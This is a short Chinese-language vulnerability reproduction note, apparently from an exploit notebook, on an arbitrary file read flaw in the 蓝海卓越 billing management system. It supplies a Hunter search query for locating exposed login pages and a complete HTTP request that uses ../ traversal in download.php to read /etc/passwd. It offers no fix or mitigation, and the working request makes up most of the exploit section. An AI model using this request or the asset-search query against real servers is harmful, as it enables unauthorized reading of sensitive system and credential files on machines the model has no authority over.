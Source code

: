 # 蓝海卓越计费管理系统任意文件读取漏洞

# 一、漏洞简介
蓝海卓越计费管理系统存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件。

# 二、影响版本
+ 蓝海卓越计费管理系统

# 三、资产测绘
+ hunter`web.title=="蓝海卓越计费管理系统"`
+ 登录页面

![1693579717927-cbd94d05-0588-4dda-9e39-b1c7c482d113.png](./img/v_IBCSqew1UGaRIV/1693579717927-cbd94d05-0588-4dda-9e39-b1c7c482d113-430414.png)

# 四、漏洞复现
```java
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=j19v1fshs6s3cvqff0k4l0kjn5
Upgrade-Insecure-Requests: 1
```

![1693579897849-1a707b06-bdb4-4e5f-853f-201ac2af36ad.png](./img/v_IBCSqew1UGaRIV/1693579897849-1a707b06-bdb4-4e5f-853f-201ac2af36ad-850295.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qrur2mnozzvxgaw8>